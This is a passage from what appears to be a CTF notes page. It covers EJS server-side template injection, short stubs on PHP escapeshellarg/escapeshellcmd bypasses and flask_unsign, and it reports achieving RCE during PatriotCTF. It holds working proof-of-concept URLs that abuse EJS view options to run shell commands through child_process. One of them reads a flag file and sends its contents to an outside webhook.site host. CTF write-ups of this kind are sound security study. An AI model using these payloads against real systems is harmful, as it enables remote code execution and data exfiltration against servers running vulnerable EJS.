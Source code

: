       app.listen(port, () => {
        console.log("Example app listening on port ${port}")
      })

- POC code: `This poc below works well with `^3.1.7`

      http://127.0.0.1:3000/page?settings[view%20options][closeDelimiter]=1")%3bprocess.mainModule.require('child_process').execSync('calc')%3b//

- Another POC code with [escapeFunction]

      http://127.0.0.1:3000/?name=John&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('calc');

- Poc for out-of-band exfiltration
  
      http://127.0.0.1:3000/?settings[view%20options][client]=true&settings[view%20options][escapeFunction]=1;return%20fetch(`https://webhook.site/fb92548e-56b3-4f02-9ca7-2b702be8f227?flag=${process.mainModule.require('child_process').execSync('cat%20flag-aaee2b1430.txt').toString()}`);//

### Testing on version `^3.1.9` in PatriotCtf with the above POC

- Oops,we have RCE

![image](https://github.com/user-attachments/assets/de683e16-2030-41b1-9e10-28bbfb267607)


---------------------

### REFERENCES:

- [Github](https://gist.github.com/ky28059/d539294051afa549eb303b832c7a5826)
- [Github](https://github.com/mde/ejs/issues/720)

--------------------

### Php escapes for `escapeshellcmd() and escapeshellargs()`

- [kacperszurek](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md)

---------------------

### Using Flask_unsign as a module in python's code

--------------------

### Importing it

- Use

`import flask_unsign`

![image](https://github.com/user-attachments/assets/3da2de37-3aa8-4512-99e4-7e425c465b2f)

